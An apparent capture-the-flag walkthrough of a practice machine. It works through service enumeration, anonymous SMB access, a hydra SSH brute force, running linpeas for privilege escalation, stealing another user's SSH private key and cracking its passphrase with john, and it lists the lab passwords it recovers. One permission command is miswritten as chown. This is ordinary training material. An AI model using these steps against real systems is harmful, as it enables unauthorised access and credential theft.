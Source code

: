 # Task 1: Web App Testing and Privilege Escalation
### Deploy the machine and connect to our network
### Find the service exposed by the machine
_nmap -Pn -vv -A <ip_addr>_
### What is the name of the hidden directory on the web server(enter name without /)?
_gobuster dir -u <ip_addr> -w /usr/share/wordlists/dirb/common.txt_
**development**
### User brute-forcing to find the username and password
_enum4linux -A <ip_addr>_
Here we have 2 ways to approach this problem, or at least I found 2 ways.
- First, we can see the Share Enumeration, there is an interesting sharename: _Anonymous_. This means the SMB server allows Anonymous login.
	_smbclient //<ip_addr>/anonymous_ (Password is also anonymous)
	Now we want to look into the directory, find anything that stands out.
	_dir_
	We get a "staff.txt" file. Download and then open it, see what's up.
	_get staff.txt_
	_cat staff.txt_
	In the text file we can see 2 names: Jan and Kay.
	One of the two might be our bingo.
- Second, we can look at Users on <ip_addr> via RID cycling
	We get:
	- S-1-22-1-1000 Unix User\kay (Local User)
	- S-1-22-1-1001 Unix User\jan (Local User)
### What is the username?
**Jan**
### What is the password?
We can use hydra to bruteforce this one.
_hydra -t 4 -l Jan -P /usr/share/wordlists/rockyou.txt -vV <ip_addr> ssh_
It's gonna take some time.
**armando**
### What service do you use to access the server(answer in abbreviation in all caps)?
**SSH**
### Enumerate the machine to find any vectors for privilege escalation
So, after watching John Hammond's youtube walkthrough video, apparently there's a script called linpeas.sh that can enumerate through so many stuff to find privesc angles.
_[https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)_
And we want to upload this file into the machine. There's a handy command called _scp_ that can do just that.
_scp linpeas.sh jan@<ip_addr>:/dev/shm_
/dev/shm is a temporary file storage filesystem, and for some reason we can and should upload our file here. In other cases we can upload our file to /tmp.
To be able to execute the script, we give it execute permission.
_chmod +x linpeas.sh_
_./linpeas.sh_
This will show you what you need to know, what to look for.
Scroll down a while and we can see 
![[Pasted image 20210510122004.png]]
<u>"Possible private SSH keys were found!
/home/kay/.ssh/id_rsa"</u>

Going to that directory, we discover that we can read the id\_rsa file. Let's get the file and maybe name it "kay\_id\_rsa".

With ssh and id\_rsa keys, we have to give the file 600 permission only as ssh requires that the private key files are not accessible by others.

_chown 600 kay_id_rsa_
_ssh -i kay_id_rsa kay@<ip_addr>_
With this command ssh requires us a password to use this rsa key. To find this password, we'll use johntheripper.

We have to convert the ssh file into something that john can understand, then we can bruteforce the password with rockyou

_ssh2john kay_id_rsa > kay_id_rsa.txt_
_john --wordlist=rockyou.txt kay_id_rsa.txt_
The result is _"beeswax"_

Input the password and voila, we're in.

Look in the kay's home directory and we see a _"pass.bak"_
_cat pass.bak_
**heresareallystrongpasswordthatfollowsthepasswordpolicy\$$**
# **And we're done**